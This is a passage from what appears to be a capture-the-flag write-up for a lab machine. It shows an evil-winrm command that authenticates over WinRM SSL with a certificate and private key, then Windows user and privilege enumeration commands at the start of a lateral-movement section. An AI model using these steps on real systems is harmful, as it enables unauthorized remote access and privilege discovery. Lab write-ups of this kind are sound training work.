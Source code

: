 
### 3.6 WinRM over SSL Access

Port 5986 is open (WinRM over SSL). Authenticate using Evil-WinRM:

``` bash
evil-winrm -i 10.10.11.152 -c certificates.pem -k priv-key.pem -S
```

![User Flag](screenshots/user_flag.png)

🏁 **User flag obtained**

---

## 4. Lateral Movement

### 4.1 Enumerating Users & Groups

Check privileges of current user and other accounts:

``` powershell
net user
whoami /priv
net user legacyy
```
